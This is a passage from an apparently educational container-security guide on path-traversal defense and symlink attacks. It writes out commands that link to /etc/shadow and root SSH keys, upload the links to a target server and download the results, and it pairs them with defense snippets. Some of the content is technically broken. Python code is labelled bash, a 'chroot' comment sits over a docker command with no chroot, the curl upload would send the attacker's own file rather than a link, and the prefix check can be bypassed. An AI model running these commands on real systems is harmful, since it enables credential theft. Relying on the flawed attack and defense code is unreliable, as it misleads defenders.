 #### **Defense & Patching**
```bash
# Input validation
import os
import pathlib

def safe_path(base_path, user_path):
    base = pathlib.Path(base_path).resolve()
    user = pathlib.Path(user_path).resolve()
    try:
        user.relative_to(base)
        return str(user)
    except ValueError:
        raise ValueError("Path traversal detected")

# Use chroot
docker run -d --name secure-app \
  --security-opt apparmor=docker-default \
  myapp:latest
```

### **2. Symlink Attacks**

#### **Attack Vector: Symbolic Link Exploitation**
```bash
# Attacker creates malicious symlink
ln -s /etc/passwd /tmp/innocent.txt

# Uploads file to container
curl -X POST -F "file=@/tmp/innocent.txt" \
  http://192.168.1.100:8080/upload

# Container processes the symlink
cat /app/uploads/innocent.txt
# Actually reads /etc/passwd
```

#### **Exploitation Steps**
```bash
# 1. Create malicious symlink
ln -s /etc/shadow /tmp/config.txt
ln -s /root/.ssh/id_rsa /tmp/key.txt

# 2. Upload to container
curl -X POST -F "file=@/tmp/config.txt" \
  http://192.168.1.100:8080/upload

# 3. Access sensitive data
curl http://192.168.1.100:8080/download?file=config.txt
```

#### **Defense & Patching**
```bash
# Follow symlinks safely
import os

def safe_read_file(file_path):
    if os.path.islink(file_path):
        real_path = os.path.realpath(file_path)
        if not real_path.startswith('/app/'):
            raise ValueError("Symlink attack detected")
    return open(file_path).read()

# Use read-only filesystem
```